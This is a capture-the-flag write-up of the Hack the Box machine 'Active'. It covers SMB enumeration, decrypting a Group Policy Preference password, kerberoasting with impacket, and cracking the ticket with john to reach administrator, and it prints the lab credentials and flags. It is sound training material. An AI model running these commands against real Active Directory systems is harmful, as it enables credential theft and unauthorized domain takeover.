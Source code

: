 ```yaml
---
title: Active - Hack the Box
date: 2024-10-12 00:00:00 +0800
categories: [Hack the Box]
tags: [Active Directory]
---
```


![Desktop View](/assets/Active.png)

Active is a machine to learn about the enumeration of services in an AD environment. Attackers will need to leverage understandings of ports and services, SMB configurations, Group Policy Preference (GPP), hash cracking, and kerberoasting. Without further ado, let's get into it.

### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 20:53 EDT
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-11 00:54:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-11T00:55:13
|_  start_date: 2024-09-11T00:51:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.17 seconds

```

Our TCP and UDP port scan didn't finish before we had achieved root, so I'll leave those scans out. Do remember, it is extremely important to cover all bases in the enumeration phase of our reconnaissance and scanning. 

We've got quite a lot going on here, and I'd like to go through these ports and their importance within the context of Active Directory. `88` is the one that catches my eye, because it is occupied by the `Kerberos` service which is used to authenticate Users to the Domain Controller. `139` and `445` are associated with the `SMB` (Server Messaging Block) service, and we can usually enumerate these services for information of files.`389` and `3268` are for the `LDAP` services, and `MSRPC` allows the hosts to talk to each other. 

### Enumeration

We've got a Windows 2008 Server acting as our Domain Controller. We get the name of the machine too, so add it to `/etc/hosts` The normal vector here is to use the DNS Resolver to get our hostname `active.htb` and try to exploit through a web-based attack vector. We can use commands such as like `host -l`, `dig`, and `nslookup`. These are dead-ends, though, and we need to start moving on to other options.

In order to interact with SMB shares, we can use tools like `smbclient` and `smbmap`. The latter allows us to enumerate the SMB shares to get information about files, share, and directories. The former allows us to interact with and connect to actual shares as well as transfer files. 

Using the scan `smbmap -H active.htb`, we get access to see some shares:

![Image](/assets/Screenshot 2024-09-10 at 9.49.47 PM.png)

Wee've got access to only one share, so lets enumerate a bit more. We can connect via SMB to the machine using the syntax below, and the `-N` parameter suppresses the password because we're trying for an anonymous logon.

`smbclient //active.htb/Replication -N`

### Initial Access

Once we're connected, we can browse around using `cd` and whatnot, while `get` and `more` give us information about files. Just like when fuzzing web directories, there are key items and things to look for in shares as well. Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as `cpassword`. These are extremely helpful when looking for initial footholds.

![Image](/assets/Screenshot 2024-09-10 at 10.06.08 PM.png)

When we open the file with `more`, or transfer it with `get`, we'll see that there are credentials here.

![Image](/assets/Screenshot 2024-09-10 at 10.08.42 PM.png)

Because we know the encryption method, and the key's been published before in a MSFT leak, we've got tools to decrypt. One of them is called `gpp-decrypt`.

`gpp-decrypt [ENCRYPTED PASS]`

When we do this, we're able to get our password.

 `GPPstillStandingStrong2k18`

An important concept when enumerating on Active Directory machines is to spray credentials whenever and wherever you can, as they're often reused. We can now go use `smbclient` to log in with credentials.

`smbclient -W active.htb -U SVC_TGS //active.htb/USERS`

Once in, we can navigate to the user's directory and desktop for our flag.

![Image](/assets/Screenshot 2024-09-10 at 10.20.51 PM.png)

`USER:77d587ba5436a9188f242c777ce6fd17`

### Privilege Escalation

A very useful and common vector for escalating privileges in this environment is by abusing the AD authentication service known as Kerberos. The diagram below illustrates how the protocol works.

![Image](/assets/Screenshot 2024-09-11 at 9.27.35 AM.png)

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

A tool called `impacket` is vital for us in this process, and it can be installed with a `git` repository, and installed with `python setup.py install` once in the downloaded directory. `GetUserSPNs.py` is a great script that enumerates SPNs for us, and the command to use it is below. (It sit in `/examples/` directory)

`./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request`

![Image](/assets/Screenshot 2024-09-10 at 11.02.19 PM.png)

We get the TGS for users in a useful JtR/Hashcat format that we can use to brute-force offline. It's important to export these results to a file for ease of use, and additionally, if the hash or list is going to create a computationally intensive process, run the process on metal. VM is no good here. 

If you receive an error, “Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

We can take our TGS and use any cracking tool like `john` or `hashcat` and crack!

`john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt`

![Image](/assets/Screenshot 2024-09-10 at 11.13.12 PM.png)

We got a password! 

Now, remember what I said. We've got a login, enumerate once again. `smbmap` is great for this to re-assess where we are.

`smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968`

We're looking for access to any important drive or directory. In this case, we've got access to $C drive! All we need to do is connect via `smbclient` with our credentials, and grab our flag.

`smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968`

`more \users\administrator\desktop\root.txt`

![Image](/assets/Screenshot 2024-09-10 at 11.18.00 PM.png)

`ROOT:3dfddeb6977b22a2d47e8dc8346cbda1`

#windows #manual #easy 
